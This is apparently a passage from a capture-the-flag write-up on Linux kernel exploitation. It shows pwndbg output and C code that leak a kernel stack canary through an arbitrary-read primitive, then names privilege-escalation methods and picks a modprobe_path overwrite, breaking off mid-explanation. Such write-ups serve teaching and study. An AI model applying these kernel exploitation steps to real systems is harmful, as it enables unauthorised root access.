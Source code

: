 By scanning the BSS in memory in GDB, we can soon find an address that is at a relative offset from `$gs_base`.

```
pwndbg> x/gx 0xffffffff96d44050
0xffffffff96d44050:     0xffff9e870fcdb8c0
pwndbg> x/gx $gs_base
0xffff9e870f600000:     0x0000000000000000
pwndbg> pi hex(0xffffffff96d44050-0xffffffff94600000)
'0x2744050'
```

As you can see, there is a pointer at a relative offset to `$gs_base` stored in an offset of *0x2744050* from our kernel base address.

Based on this finding, we can easily leak our stack canary.

```c
unsigned long canary = aar(aar(kbase+0x2744050)-0x6db898);
printf("[*] canary at 0x%lx\n", canary);
```

![](attachments/window-of-opportunity-4.jpg)

## Getting our hands dirty: KROP to root

With our canary and kernel base in hand, we are 60% to completing our exploit.

In kernelspace exploitation challenges, there are usually a few ways to escalate your privileges, some of the more common ones are:

- overwrite modprobe_path/core_pattern
- commit_creds(prepare_kernel_cred(0))
- overwrite cred structure

For our case, given that we have an buffer overflow with nothing to stop us, we can take the approach of overwriting **modprobe_path** by calling `copy_from_user`.

### what modprobe what path?

For the knowledge-hungry and curious minds, you can find more details about it [here](https://github.com/smallkirby/kernelpwn/blob/master/technique/modprobe_path.md) and [here](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/)

A short summary of how the technique works --- when we execute a file of an unknown format, it will do a series of calls:

```
1. do_execve()
2. do_execveat_common()
3. bprm_execve()
4. exec_binprm()
5. search_binary_handler()
6. request_module()
7. call_modprobe()
```
